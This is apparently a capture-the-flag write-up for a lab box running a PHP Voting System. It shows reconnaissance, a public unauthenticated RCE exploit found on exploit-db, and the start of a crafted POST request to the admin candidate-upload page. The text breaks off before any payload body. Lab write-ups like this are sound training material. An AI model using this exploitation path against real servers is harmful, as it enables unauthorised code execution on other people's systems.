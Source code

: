 
Looking at the site on port 80 we find a Voting System using PHP login.

![love_port80.png](../assets/love_assets/love_port80.png)

Looking at port 443, we get a forbidden error. But if we look at the site's certificate we can gather a bit more info:

![love_certificate.png](../assets/love_assets/love_certificate.png)

Looks like we've got a potential username as well as some domains. Lets add these to `/etc/hosts`

Going back to port 80 I start looking for exploits for voting system using php and find an unauthenticated RCE exploit: https://www.exploit-db.com/exploits/49846 

### Exploitation

I can capture an HTTP request in burp, and modify the POST request to:

```
POST /admin/candidates_add.php HTTP/1.1
Host: 10.129.48.103
Content-Length: 271
Cache-Control: max-age=0
Origin: http://10.129.48.103
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.129.48.103/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
```